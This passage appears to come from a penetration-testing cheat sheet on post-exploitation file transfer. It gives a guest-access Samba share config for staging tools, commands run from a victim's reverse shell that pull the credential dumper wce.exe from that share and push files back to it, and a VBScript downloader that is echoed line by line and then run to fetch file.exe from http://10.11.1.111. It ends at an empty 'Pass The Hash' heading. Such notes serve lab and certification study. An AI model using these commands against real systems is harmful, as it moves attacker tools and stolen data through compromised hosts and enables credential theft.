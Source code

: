 ```bash
		workgroup = WORKGROUP
		server string = Samba Server %v
		netbios name = indishell-lab
		security = user
		map to guest = bad user
		name resolve order = bcast host
		dns proxy = no
		bind interfaces only = yes
	
		[ica]
		path = /var/www/html/pub
		writable = no
		guest ok = yes
		guest only = yes
		read only = yes
		directory mode = 0555
		force user = nobody

	chmod -R 777 smb_path
	chown -R nobody:nobody smb_path
	service smbd restart 

# Victim machine with reverse shell
Download: copy \\$IP\Lab\wce.exe . 
Upload: copy wtf.jpg \\$IP\Lab
```
### Windows download with VBS
```cmd
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.11.1.111/file.exe file.exe
```
### Pass The Hash
```bash
# Login as user only with hashdump
# From this hashdump
```